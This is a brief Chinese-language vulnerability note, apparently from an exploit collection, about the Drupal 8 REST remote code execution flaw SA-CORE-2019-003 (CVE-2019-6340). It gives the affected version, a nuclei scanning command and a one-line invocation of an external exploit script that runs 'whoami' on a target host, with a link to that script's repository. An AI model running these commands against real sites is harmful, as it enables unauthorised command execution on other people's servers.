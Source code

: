 ## 漏洞概述

Drupal8 REST RCE, SA-CORE-2019-003

## 影响范围

```http
8.x
```

## POC

```bash
nuclei -tags drupal -t cves/ -l urls.txt

或者Goby
```

## EXP

```python
python CVE-2019-6340.py http://47.xx.xx.xx  "whoami"
```

[@jas502n](https://github.com/jas502n)

## 参考链接

https://github.com/jas502n/CVE-2019-6340